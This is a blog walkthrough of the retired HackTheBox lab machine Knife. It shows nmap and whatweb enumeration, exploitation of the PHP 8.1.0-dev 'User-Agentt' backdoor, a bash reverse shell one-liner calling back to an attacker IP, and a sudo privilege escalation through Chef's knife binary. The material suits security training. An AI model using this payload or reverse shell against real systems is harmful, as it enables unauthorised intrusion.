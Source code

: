 ```yaml
---
category: Walkthrough
date: 2021-08-28 12:00:00
header:
  og_image: https://i.imgur.com/U5A7c9y.png
  teaser: https://i.imgur.com/U5A7c9y.png
language: en-US
namespace: htb-knife
redirect_from: /writeup/2021/08/htb-knife
tags:
- HackTheBox
- HTB Easy
- HTB Linux
title: 'Walktrough: HTB Knife'
---
```


Hello guys!

This week's machine will be **Knife**, another easy-rated Linux box from [Hack The Box](https://www.hackthebox.eu/), created by [MrKN16H](https://app.hackthebox.eu/users/98767).<!--more-->

:information_source: **Info**: Write-ups for Hack The Box machines are posted as soon as they’re retired.
{: .notice--info}

![HTB Knife](https://i.imgur.com/3IO9vBj.png){: .align-center}

This was a pretty straightforward box where you must pay attention to the details (in the case of the vulnerable web server) and always go for the low-hanging fruits first like abusing the `sudo` permissions user already have.

I hope you guys enjoy it!

## Enumeration

As usual, started with a quick `nmap` scan to check the published services on this box:

```bash
$ nmap -sC -sV -Pn -oA quick 10.10.10.242
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-10 17:50 -03
Nmap scan report for 10.10.10.242
Host is up (0.072s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.42 seconds
```

### 80/TCP - HTTP Service

Accessing the website we can see a simple institutional page from a health company, as below:

![HTB Knife - HTTP Service](https://i.imgur.com/oAbssxJ.png){: .align-center}

After accessing the website, gathered some information about the page, its components, and the server from which it was published using `whatweb,` and what called attention was the `X-Powered-By` header pointing to a **dev** version of **PHP 8.1.0**.

```bash
$ whatweb --color=never -a 3 10.10.10.242 | tee whatweb.txt
http://10.10.10.242 [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.10.242], PHP[8.1.0-dev], , Title[Emergent Medical Idea], X-Powered-By[PHP/8.1.0-dev]
```

## Initial Access and User flag

As dev versions often contain vulnerabilities, decided to search it using `searchsploit` and found an RCE vulnerability as listed below:

```bash
$ searchsploit "8.1.0-dev"
---------------------------------------------------------------------- ----------------------------
 Exploit Title                                                        |  Path
---------------------------------------------------------------------- ----------------------------
PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution                   | php/webapps/49933.py
---------------------------------------------------------------------- ----------------------------
Shellcodes: No Results
```

This vulnerability consists in a backdor which was added in some commits of PHP source code by compromised accounts and, when a request arrives with a header `User-Agentt: "zerodiumsystem('cmd');"`, the `cmd` will be interpreted and executed in the system. The payload available emulate a non-interactive shell and, from it, started an interactive session using the payload `bash -c 'bash -i >& /dev/tcp/10.10.10.10/4443 0>&1'` which returned a session from **james**'s user account, where in his home directory I was able to read the contents of `user.txt`, obtaining the first flag.

```bash
james@knife:~$ id && hostname
uid=1000(james) gid=1000(james) groups=1000(james)
knife
james@knife:~$ cat user.txt
<redacted>
```

## Root flag

As usual, started with the command `sudo -l` and we were lucky once again, as output below:

```bash
james@knife:~$ sudo -l
Matching Defaults entries for james on knife:
   env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
   (root) NOPASSWD: /usr/bin/knife              
```

Doing a quick search on this binary, found out that it's related to [Chef's Configuration Management Solution](https://www.chef.io/) and, according to [knife \| GTFOBins](https://gtfobins.github.io/gtfobins/knife/#sudo) page, could be easily used to privesc to root, as below, allowing us to get the final flag :smiley:

```bash
james@knife:~$ sudo /usr/bin/knife --help                                                                                 Chef Infra Client: 16.10.8

Docs: https://docs.chef.io/workstation/knife/
Patents: https://www.chef.io/patents

[...]

james@knife:~$ sudo /usr/bin/knife exec -E 'exec "/bin/sh"'
# cat root.txt
<redacted>
```

I hope you guys have enjoyed!

See you at the next post :smile:
